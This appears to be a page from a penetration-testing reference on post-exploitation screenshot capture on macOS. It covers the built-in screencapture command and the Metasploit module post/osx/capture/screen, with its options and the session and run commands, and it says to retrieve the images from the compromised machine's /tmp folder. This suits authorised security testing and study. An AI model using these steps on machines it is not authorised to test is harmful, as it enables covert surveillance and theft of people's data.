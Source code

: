 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - living-off-the-land
  - metasploit-framework
  - osx
---
```

# Screenshot

## 01 - Living off the Land

Mac OSX Screenshot program

```
$ screencapture
```

## 02 - Metasploit

You can use a metasploit module as well and if you type `info` you can run a session type that it can be either a regular **Shell** or a **Meterpreter**.

```
msf > use post/osx/capture/screen

msf post(osx/capture/screen) > options

Module options (post/osx/capture/screen):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   COUNT     1                        yes       Number of screenshots to collect.
   DELAY     10                       yes       Interval between screenshots in seconds. 0 for no delay
   EXE_PATH  /usr/sbin/screencapture  yes       Path to remote screencapture executable
   FILETYPE  png                      yes       File format to use when saving a snapshot (Accepted: png, gif)
   SESSION                            yes       The session to run this module on
   TMP_PATH  /tmp/<random>            yes       Path to remote temp directory

msf post(osx/capture/screen) > set session <session_ID>

msf post(osx/capture/screen) > run
```

Once you've took a screenshot download the file in the compromised Mac OSX machine that was stored in the `/tmp/` folder.

---
## References

### LOOBins

- [LOOBins: Screencapture](https://www.loobins.io/binaries/screencapture/)

### Null Byte

- [Null Byte: How to Automate Screenshot Exfiltration from a Backdoored MacBook](https://null-byte.wonderhowto.com/how-to/hacking-macos-automate-screenshot-exfiltration-from-backdoored-macbook-0186598/)